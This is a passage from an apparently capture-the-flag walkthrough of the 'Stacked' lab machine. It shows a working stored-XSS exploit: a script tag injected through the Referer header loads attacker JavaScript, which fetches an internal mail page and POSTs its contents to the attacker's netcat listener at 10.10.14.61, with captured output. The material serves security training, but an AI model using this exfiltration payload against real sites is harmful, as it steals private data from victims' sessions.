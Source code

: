 Serve `tgihf.js`:

```javascript
let target = "http://mail.stacked.htb";
fetch(target).then(response => {
   response.text().then(data => {
      const home = "http://10.10.14.61:8000";
      fetch(home, {
         method: "POST",
         body: data
      })
   })
})
```

Start a `netcat` listener to write the `http://mail.stacked.htb` response body into a file:

```bash
$ nc -nlvp 8000 > index.html
listening on [any] 8000 ...
```

The XSS payload:

```http
POST /process.php HTTP/1.1
Host: portfolio.stacked.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 140
Origin: http://portfolio.stacked.htb
Connection: close
Referer: <script src="http://10.10.14.61/tgihf.js"></script>

fullname=tgihf&email=tgihf%40stacked.htb&tel=111111111111&subject=Great+job!&message=Keep+up+the+good+work,+developing+nice,+secure+systems!
```

```bash
$ nc -nlvp 8000 > index.html
listening on [any] 8000 ...
connect to [10.10.14.61] from (UNKNOWN) [10.129.140.39] 56160
```

The HTML source of `http://mail.stacked.htb` indicates it is the index page of an [AdminLTE 3](https://github.com/ColorlibHQ/AdminLTE) instance belonging to Adam Perkins. Adam's mailbox shows two email messages, one from Jeremy Taint (subject: "S3 Instance Started") and one from the attacker.

Jeremy's message is readable at `http://mail.stacked.htb/read-mail.php?id=1`. Modify and rerun the above exploit to retrieve this URL.

The message:
